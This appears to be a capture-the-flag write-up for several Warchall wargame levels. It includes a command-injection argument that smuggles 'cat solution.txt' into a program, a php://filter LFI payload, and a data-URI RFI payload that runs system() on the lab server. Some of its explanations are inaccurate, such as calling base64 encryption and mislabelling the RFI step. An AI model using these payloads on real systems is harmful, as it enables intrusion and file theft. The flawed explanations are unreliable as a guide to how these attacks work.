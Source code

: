 # Warchall


## Choose your PATH 1
This is the level10 mini challenge found in /home/level/10/ on the warchall box.
You can view the source here.
### level 10
1- Use the cd command to navigate into the challenge repository.
```bash
  cd /home/level/10_choose_your_path
```
2- Execute the following command to redirect the solution to the personnal directory:
```bash
   ./charp "so & cat solution.txt > ~/s.txt"
```
- ./charp: Runs the program or script named "charp."
- "so": Provides a string as an argument to "charp."
- &: Indicates that "so" will run in the background.
- cat solution.txt > ~/s.txt: Displays the content of "solution.txt" and redirects it to a new file "s.txt" in the user's home directory.

3- Open the "s.txt" file in the home directory.
```bash
  cat ~/s.txt
```

## Py-tong
A fellow hacker is challenging you to exploit a simple python script.
To exploit it live, you have to create your Warchall account and try your luck there.
To see what it is about you can also view the source here.

Note: It is not required to trigger a race condition, but it should work as well.
Note: You have to use the binary "pytong" not the pytong.py. It is a wrapper which is needed for SETREGID and finally gives the solution.
### Level 12
To solve this challenge, the following command is used: ./pytong <(echo text)

./pytong: This is the execution of the pytong binary, which is the Python script to exploit
<: This is the redirection operator; it takes the output of the following command and uses it as input for ./pytong.
(echo text): This generates the string "text" and passes it as input to ./pytong
```bash
./pytong <(echo text)
```
## Live LFI
One reason why I wanted the warchall box is to offer more realistic webhacking challenges.
You may now try the Live LFI challenge that is hosted on it.

### Level14
Your objective is to retrieve the content of the `solution.php` file using LFI. Follow the steps below to complete the challenge.

1- Visit the following link in the web browser:
```
https://lfi.warchall.net/index.php?lang=solution.php
```
2- Try using the LFI vulnerability by appending the following payload to the URL:
```
https://lfi.warchall.net/?lang=php://filter/read=convert.base64-encode/resource=solution.php
```
This payload utilizes the `php://filter` stream to encode the content of `solution.php` in base64.

3- Copy the encrypted base64-encoded text from the webpage and decode it using the following bash command in your terminal:
```bash
  echo "text_encrypted" | base64 -d
```

## Live RFI
One reason why I wanted the warchall box is to offer more realistic webhacking challenges.
You may now try the Live RFI challenge hosted on it.
### Level 15
Your objective is to retrieve the content of the `solution.php` file using RFI. Follow the steps below to complete the challenge.
1- Visit the following link in the web browser:
```
https://rfi.warchall.net/index.php?lang=solution.php
```
2- Try using the LFI vulnerability by appending the following payload to the URL:
```
https://rfi.warchall.net/index.php?lang=data:text/plain,%3C?php%20system(%22cat%20solution.php%22)?%3E%E3%80%82
```
The lang parameter of the URL is set to data:text/plain, the string <?php system("cat solution.php")?>. This parameter tells the PHP server to return the content of the PHP file solution.php as plain text.
The string <?php system("cat solution.php")?> is a PHP instruction that calls the function system(). The function system() executes a program or script as a child process. In this case, the program or script executed is the program cat. The program cat reads the contents of a file and displays them on the standard output.
3- After visiting the link above, please inspect the site :
```
  right click and choose the inspect option
```

